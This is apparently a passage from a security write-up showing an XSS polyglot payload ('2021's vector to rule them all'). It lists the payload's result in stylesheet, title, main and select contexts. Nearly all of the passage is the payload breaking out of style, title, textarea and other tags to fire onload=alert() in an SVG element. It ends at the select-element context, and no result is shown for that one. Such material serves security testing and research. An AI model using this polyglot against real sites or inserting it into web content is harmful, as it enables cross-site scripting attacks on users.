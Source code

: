 ### Context #5: HTML Stylesheet

- Code snippet

```html
<style>
payload</style>
```

- Result from payload

```html
<style>
"
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg></style>
```

### Context #6: HTML Title

- Code snippet

```html
<title>2021's vector to rule them all - payload</title></head>
```

- Result from payload

```html
<title>2021's vector to rule them all - "
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg></title></head>
```

### Context #7: HTML Main Element

- Code snippet

```html
<main>    payload
    <select>
```

- Result from payload

```html
<main>    "
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg>
    <select>
```

### Context #8: HTML Select Element

- Code snippet

```html
<select><option>payload</option></select>
```
